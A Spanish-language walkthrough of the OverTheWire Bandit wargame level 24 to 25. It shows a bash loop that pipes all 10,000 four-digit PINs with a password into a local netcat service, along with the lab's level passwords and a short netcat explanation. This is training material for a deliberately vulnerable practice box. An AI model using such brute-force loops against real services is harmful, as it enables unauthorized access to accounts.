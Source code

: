 # Bandit Level 24 → Level 25



## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de acceso al nivel 
- bandit24
- VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución
``` bash
bandit24@bandit:~$ nc -v localhost 30002
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 987
Wrong! Please enter the correct pincode. Try again.
^C
bandit24@bandit:~$ for i in {0000..0003}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```


## Notas adicionales
Se genera  un listado con todos los números posibles y luego son enviados por netcat al puerto 30002.

| Comando | Descripción |
|------ | -------------- |
| nc  |  es un **comando que permite acceder a puertos TCP o UDP de la propia máquina o de otras máquinas remotas**. También permite quedar a la escucha en un puerto dado (TCP o UDP) de la máquina local|



## Referencias
- [Bandit - [OverTheWire]](https://marmeus.com/post/Bandit#level-23)
-  [Uso básico de servicios cliente-servidor](https://ccia.esei.uvigo.es/docencia/SCS/1011/practicas/practica-1/index.html#:~:text=netcat(nc)%20es%20un%20comando,UDP)
